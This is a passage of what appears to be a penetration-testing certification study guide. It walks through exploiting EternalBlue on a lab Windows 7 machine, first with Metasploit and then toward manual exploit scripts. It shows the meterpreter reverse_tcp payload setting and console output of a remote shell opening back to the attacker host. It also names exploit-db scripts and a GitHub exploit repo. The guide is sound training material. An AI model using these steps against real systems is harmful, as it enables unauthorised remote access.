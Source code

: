 **TIP:** We've already verified that the target is vulnerable, but this exploit module can also check. If we use `options` we can see that `VERIFY_ARCH` & `VERIFY_TARGET` are set to true. To use this module to check, just type the command `check`.
#### Payload
When we loaded the module, we got the warning `[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp`. To make sure we have the right payload, we just have to use `set payload`.
##### Meterpreter
Using `set payload windows` and tab completing, we can get a list of all the possible payloads. Let's try using a meterpreter payload which is Metasploit's in-built shell:
```bash
set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
```
### Exploit
After making sure all of our options are set how we want, type `run` and let metasploit do all the work. We know it's succeeded with a shell when we see the meterpreter prompt appear:
```bash
[+] 10.0.2.6:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.0.2.6:445 - Sending egg to corrupted connection.
[*] 10.0.2.6:445 - Triggering free of corrupted buffer.
[*] Sending stage (200774 bytes) to 10.0.2.6
[*] Meterpreter session 1 opened (10.0.2.4:4444 -> 10.0.2.6:49159) at 2023-10-07 15:56:30 -0400
[+] 10.0.2.6:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.0.2.6:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.0.2.6:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

meterpreter > whoami
[-] Unknown command: whoami
```
## Manual Exploitation
Instead of using Metasploit, we can find a way to use EternalBlue ourselves:
### Searchsploit
![](nested-repos/PNPT-study-guide/PNPT-pics/blue-2.png)
![](/PNPT-pics/blue-2.png)
Let's go through out searchsploit/ exploit db flow again. Using `searchsploit` we can see that we have three options for exploit code; all three use [python](coding/languages/python.md), all three are for Windows, but only 2 can exploit Windows 7 (our target).

We can either checkout the code on our machine at the path `/usr/share/exploitdb/exploits/windows/remote/42031.py` or on [Exploit DB](https://www.exploit-db.com/exploits/42031). Unfortunately, this script, as well as the alternative (ID 42315) don't work right out of the box w/o some major debugging. So let's find a reliable version on google.
### GitHub
Searching google for `eternalblue exploit code`, we come across a few github repos. We want to be sure the code on these repos is not only reliable *but also not malicious* towards the user (us).

W/o having to read through every line, we can use check the trustworthiness of an exploit script by looking at the community  interactions w/ it. For example, [this script from 3ndG4me](https://github.com/3ndG4me/AutoBlue-MS17-010) has 990 starts, 30 accounts watching it, and has been updated in the last 2 years.
